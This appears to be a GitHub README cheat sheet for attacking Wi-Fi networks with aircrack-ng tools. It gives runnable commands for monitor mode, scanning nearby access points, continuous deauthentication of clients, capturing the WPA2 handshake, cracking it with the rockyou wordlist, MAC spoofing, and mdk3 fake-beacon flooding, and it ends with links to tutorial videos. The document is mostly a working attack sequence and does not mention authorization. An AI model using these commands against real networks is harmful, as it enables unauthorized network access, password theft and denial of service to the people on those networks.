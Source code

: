 
### prep interface

```airmon-ng check kill```

```sudo airmon-ng start wlan1```

* now our monitor interface will be wlan1mon

----

### scanning BSSID's near-by

AiroDump ALL in channels 1-165 and ignoring negative one.

```airodump-ng -c 1-165 wlan1mon --ignore-negative-one```


Or to filter and display ONLY the BSSID (MAC Address once known), try the below.

```sudo airodump-ng wlan1mon -d xx:xx:xx:xx:xx:xx```

----

### de-auth BSSID 

```aireplay-ng --deauth 0 -a xx:xx:xx:xx:xx:xx wlan1mon```

----

### Capture to file (4 way handshake)

"<i>-c X</i>". This should be the channel of the BSSID we wish to target after "-c".
-w will output the capture to the filename in this example as "wifi-capture".

```airodump-ng -w wifi-capture -c X --bssid xx:xx:xx:xx:xx:xx wlan1mon```

----

### Cracking the handshake capture

The example below uses the capture file example of "wifi-capture" and the ".cap" file.

This then uses aircrack-ng to process the capture file using the "rockyou.txt" wordlist.

*Note there are other wordlists you could use, but the rockyou wordlist is quite popular and good.

```aircrack-ng wifi-capture.cap -w /usr/share/wordlists/rockyou.txt```

----

### MAC changer (if needed)

```
ifconfig wlan0 down
macchanger -r wlan0
ifconfig wlan0 up
```

See my [mac-changer repo](https://github.com/SystemJargon/mac-changer) for more info.

----

### sporadic-clone-ap

```mdk3 wlan0 b -f ssid_list.txt  -g -a -c 6```

```-c``` being channel, can not specify for mixed results.


----

David Bombal has some videos showing further how this works. Links below.

[Cracking WiFi WPA2 Handshake](https://www.youtube.com/watch?v=WfYxrLaqlN8)

[WiFi WPA/WPA2 vs hashcat and hcxdumptool](https://www.youtube.com/watch?v=Usw0IlGbkC4)

Paul from TallPaulTech (CWNE88) also explains the "4 way handshake" in this [video](https://www.youtube.com/watch?v=vHIRmG_BzQI)
